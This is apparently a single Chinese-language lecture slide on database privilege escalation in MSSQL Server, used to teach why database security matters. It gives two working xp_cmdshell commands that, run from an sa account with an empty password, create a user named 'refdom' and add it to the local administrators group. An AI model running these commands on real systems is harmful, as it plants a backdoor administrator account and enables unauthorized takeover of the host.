

# 数据库安全-数据库提权
（2）数据库安全案例（MSSQLserver）
如果有一个能执行xp_cmdshell的数据库帐号，比如是空口令的sa帐号。那么就可以执行这样的命令：
exec xp_cmdshell 'net user refdom 123456 /add'
exec xp_cmdshell 'net localgroup administrators refdom /add'
上面两次调用就在系统的管理员组中添加了一个用户：refdom。获得了数据库的sa管理员帐号后，就应该可以完全控制这个机器了，可见数据库安全的重要性。
不同的数据库，提权使用的命令、方式不一样
57